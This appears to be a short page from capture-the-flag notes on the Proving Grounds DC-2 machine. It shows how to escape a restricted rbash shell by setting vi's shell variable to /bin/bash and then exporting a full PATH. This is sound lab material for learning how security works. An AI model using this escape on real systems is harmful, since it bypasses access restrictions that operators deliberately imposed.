 ```yaml
---
layout: default
title: rBash Issue
parent: Shells
nav_order: 1
---
```


# rBash Issue

---

## Break out to /bin/bash Shell

We initially do not have the ability to run any commands and receive _rbash_ errors.

![error](.././../../assets/images/ctfs/proving_grounds/dc-2/error.png)

We can overcome this by using _vi_ to break out to a _/bin/bash_ shell

```bash
tom@DC-2:~$ vi

# Set the "shell" variable in vi text  editor
:set shell=/bin/bash
return

# Call the "shell" variable to exit vi with a /bin/bash shell
:shell
return

# Export PATH to global distro paths
tom@DC-2:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

```

![set_shell](../../../../assets/images/ctfs/proving_grounds/dc-2/set_shell.png)

![use_shell](../../../../assets/images/ctfs/proving_grounds/dc-2/use_shell.png)
